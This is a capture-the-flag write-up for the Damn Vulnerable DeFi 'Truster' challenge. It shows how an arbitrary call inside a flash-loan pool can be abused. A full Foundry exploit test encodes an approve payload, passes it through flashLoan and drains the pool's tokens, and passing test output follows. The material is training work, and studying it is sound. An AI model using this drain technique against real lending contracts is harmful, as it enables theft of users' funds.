

#	Damn Vulnerable DeFi (Foundry version)
- [Scope](#scope)
- [Plan](#plan)
- [Solution](#solution)
  - [Proof of Concept](#proof-of-concept)

##	Challenge #3 - Truster - Description

More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

Currently the pool has 1 million DVT tokens in balance. And you have nothing.

But don't worry, you might be able to take them all from the pool. In a single transaction.

##  Scope

| File Name                                                                | SHA-1 Hash                               |
| ------------------------------------------------------------------------ | ---------------------------------------- |
| damn-vulnerable-defi-foundry/src/Contracts/truster/TrusterLenderPool.sol | 00b60fc214bc4b7130f01fda7d8386d12a78f5f0 |

##  Plan

The description and the name of the challenge are pretty self-explanatory. We have only one file with one function [flashLoan](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry/blob/e9c6bc3962dd14f90e94542711ed46f5bd8c88a4/src/Contracts/truster/TrusterLenderPool.sol#L24) and with trusting issues.

## Solution

<details>
    <!-- <summary>Description</summary> -->

With the help of [Surya](https://github.com/ConsenSys/surya) we have the call graph.

Following [functionCall](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry/blob/e9c6bc3962dd14f90e94542711ed46f5bd8c88a4/src/Contracts/truster/TrusterLenderPool.sol#L34) we can read that `functionCall` is used to perform a Solidity function call using a low level `call` and in the end is calling:
```solidity
(bool success, bytes memory returndata) = target.call{value: value}(data);
```
This means that we have an arbitrary call. We are going to take advantage of [approve](https://github.com/ethereum/EIPs/issues/20#issuecomment-263524729) and drain the pool.

</details>

<details>
    <summary>damn-vulnerable-defi-foundry/test/Levels/truster/Truster.t.sol</summary>

  ```solidity
  // SPDX-License-Identifier: MIT
  pragma solidity >=0.8.0;

  import {Utilities} from "../../utils/Utilities.sol";
  import "forge-std/Test.sol";

  import {DamnValuableToken} from "../../../src/Contracts/DamnValuableToken.sol";
  import {TrusterLenderPool} from "../../../src/Contracts/truster/TrusterLenderPool.sol";

  contract Truster is Test {
      uint256 internal constant TOKENS_IN_POOL = 1_000_000e18;

      Utilities internal utils;
      TrusterLenderPool internal trusterLenderPool;
      DamnValuableToken internal dvt;
      address payable internal attacker;

      function setUp() public {
          /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
          utils = new Utilities();
          address payable[] memory users = utils.createUsers(1);
          attacker = users[0];
          vm.label(attacker, "Attacker");

          dvt = new DamnValuableToken();
          vm.label(address(dvt), "DVT");

          trusterLenderPool = new TrusterLenderPool(address(dvt));
          vm.label(address(trusterLenderPool), "Truster Lender Pool");

          dvt.transfer(address(trusterLenderPool), TOKENS_IN_POOL);

          assertEq(dvt.balanceOf(address(trusterLenderPool)), TOKENS_IN_POOL);

          console.log(unicode"🧨 PREPARED TO BREAK THINGS 🧨");
      }

      function testExploit() public {
          /** EXPLOIT START **/
          vm.startPrank(attacker);
          uint256 trusterLenderPoolBalance = dvt.balanceOf(
              address(trusterLenderPool)
          );
          bytes memory payload = abi.encodeWithSignature(
              "approve(address,uint256)",
              attacker,
              trusterLenderPoolBalance
          );
          trusterLenderPool.flashLoan(0, attacker, address(dvt), payload);
          dvt.transferFrom(
              address(trusterLenderPool),
              attacker,
              trusterLenderPoolBalance
          );
          vm.stopPrank();
          /** EXPLOIT END **/
          validation();
      }

      function validation() internal {
          // Attacker has taken all tokens from the pool
          assertEq(dvt.balanceOf(address(trusterLenderPool)), 0);
          assertEq(dvt.balanceOf(address(attacker)), TOKENS_IN_POOL);
      }
  }
  ```

</details>

### Proof of Concept

```
./run.sh 3
[⠃] Compiling...
[⠃] Compiling 1 files with 0.8.12
[⠒] Solc 0.8.12 finished in 1.91s
Compiler run successful

Running 1 test for test/Levels/truster/Truster.t.sol:Truster
[PASS] testExploit() (gas: 68227)
Logs:
  🧨 PREPARED TO BREAK THINGS 🧨

Test result: ok. 1 passed; 0 failed; finished in 2.68ms
```